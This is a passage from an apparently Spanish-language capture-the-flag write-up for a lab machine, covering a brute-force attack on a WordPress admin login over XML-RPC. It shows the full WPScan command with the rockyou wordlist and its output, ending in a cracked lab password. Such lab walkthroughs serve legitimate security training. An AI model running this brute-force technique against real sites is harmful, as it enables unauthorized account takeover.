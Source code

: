 Podríamos intentar buscar los usuarios, pero como tenemos ese plugin, no podremos automatizar su búsqueda con **peticiones GET**, por lo que lo dejaremos hasta ahí.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="FuerzaBruta">Aplicando Fuerza Bruta a Login de WordPress con Hydra y WPScan</h2>

Hasta este momento, lo único que conocemos es un usuario, un plugin y un tema del que no hay un Exploit como tal.

Entonces, vamos a aplicar fuerza bruta al usuario que tenemos.

Lo haremos con la herramienta **WPScan** y luego con **hydra**.

Aprovecharemos que está activo el **XML-RPC** de la página web de **WordPress** para aplicar la fuerza bruta:
```bash
wpscan --url http://thefirstavenger.thl/wp1 --password-attack xmlrpc -U 'admin' -P /usr/share/wordlists/rockyou.txt -t 20 --no-banner
[i] It seems like you have not updated the database for some time.
 
[+] URL: http://thefirstavenger.thl/wp1/ [192.168.10.180]
[+] Started: Sat Jul 12 00:45:40 2025

Interesting Finding(s):
...
...
[i] Plugin(s) Identified:

[+] stop-user-enumeration
 | Location: http://thefirstavenger.thl/wp1/wp-content/plugins/stop-user-enumeration/
 | Last Updated: 2025-03-20T20:01:00.000Z
 | [!] The version is out of date, the latest version is 1.7
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.6.3 (100% confidence)
 | Found By: Query Parameter (Passive Detection)
 |  - http://thefirstavenger.thl/wp1/wp-content/plugins/stop-user-enumeration/frontend/js/frontend.js?ver=1.6.3
 | Confirmed By:
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://thefirstavenger.thl/wp1/wp-content/plugins/stop-user-enumeration/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://thefirstavenger.thl/wp1/wp-content/plugins/stop-user-enumeration/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:07 <===============================================================================================================> (137 / 137) 100.00% Time: 00:00:07

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / spongebob                                                                                                                                                                 
Trying admin / yellow Time: 00:00:03 <                                                                                                                > (100 / 14344492)  0.00%  ETA: ??:??:??

```